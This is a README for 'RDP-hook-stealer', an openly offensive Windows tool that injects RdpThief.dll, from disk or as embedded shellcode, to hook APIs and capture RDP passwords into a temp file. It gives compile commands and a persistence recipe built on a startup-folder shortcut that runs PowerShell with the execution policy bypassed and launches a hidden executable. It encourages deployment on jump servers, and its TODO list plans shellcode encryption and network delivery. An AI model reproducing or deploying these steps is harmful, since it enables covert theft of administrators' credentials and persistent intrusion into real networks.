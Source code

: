 
# RDP-hook-stealer
This is a tool that I code in my process of understanding windows internals. I thought it was a very good idea to deploy it on jump servers. It works by injecting RdpThief.dll to perform API hooking and extract RDP credentials. Each password entered will be stored in ``C:\users\<user>\AppData\Local\Temp\data.bin``. 
## Files
There are two files: rdp_indisk.cpp and rdp_inmemory.cpp. They are quite self-descriptive, but basically one injects the DLL from disk, and another from memory, being in shellcode format in the binary itself

## Compilation
To compile the indisk:
``x86_64-w64-mingw32-gcc rdp_indisk.cpp -o rdp_indisk.exe -lstdc++ -static``

To compile the inmemory
``x86_64-w64-mingw32-gcc rdp_inmemory.cpp -o rdp_inmemory.exe -lstdc++ -static``

## Persistence
1. Create a .lnk in startup folder
``C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`` with the content ``Powershell -ExecutionPolicy Bypass -File “C:\run.ps1”``
2. Create a file called ``C:\run.ps1`` with the content ``Powershell -Command “& {Start-Process ‘C:\s.exe’ -WindowStyle Hidden}”``
3. Enjoy and search from time to time data.bin file in the file explorer.

## TODO
- Encrypt shellcode loaded into memory
- Support for sending shellcode via socket (network)

